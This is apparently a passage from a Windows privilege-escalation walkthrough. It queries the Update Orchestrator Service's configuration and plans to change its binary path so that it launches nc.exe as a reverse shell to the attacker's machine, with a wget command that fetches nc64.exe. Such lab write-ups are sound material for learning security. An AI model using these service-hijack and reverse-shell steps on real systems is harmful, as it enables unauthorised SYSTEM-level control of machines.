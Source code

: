 ![image.png](image%2028.png)

The command **`sc qc usosvc`** queries the configuration of the **Update Orchestrator Service**. It shows details like:

- **Start Type**: Auto-start (Delayed).
- **Binary Path**: Runs under `svchost.exe` with the `netsvcs` group.
- **Service Account**: Runs as **LocalSystem** (high privileges).
- **Dependencies**: Relies on **RPCSS** (Remote Procedure Call).

This service manages and schedules Windows updates.

Now we need to find a way to modify the service configuration. My idea is to change the binary path name of the service and then run nc.exe reverse shell to our machine.

We can get nc64 by using this command 

`wget [https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe](https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe)`

Make sure you use the address of raw.

![image.png](image%2029.png)
